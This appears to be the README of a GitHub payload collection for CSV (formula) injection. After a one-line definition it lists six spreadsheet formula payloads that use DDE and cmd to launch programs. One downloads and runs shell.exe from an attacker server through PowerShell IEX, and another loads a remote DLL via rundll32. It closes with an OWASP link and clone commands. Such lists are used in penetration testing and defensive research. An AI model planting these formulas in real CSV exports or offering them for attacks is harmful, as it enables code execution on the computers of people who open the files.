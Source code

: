 CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

#### [](https://github.com/payloadbox/csv-injection-payloads#payloads-)Payloads :

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

#### [](https://github.com/payloadbox/csv-injection-payloads#references-)References :

###### [](https://github.com/payloadbox/csv-injection-payloads#csv-injection-)CSV Injection :

-   👉 [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)

##### [](https://github.com/payloadbox/csv-injection-payloads#cloning-an-existing-repository--clone-with-https-)Cloning an Existing Repository ( Clone with HTTPS )

```
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
```

##### [](https://github.com/payloadbox/csv-injection-payloads#cloning-an-existing-repository--clone-with-ssh-)Cloning an Existing Repository ( Clone with SSH )

```
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
```
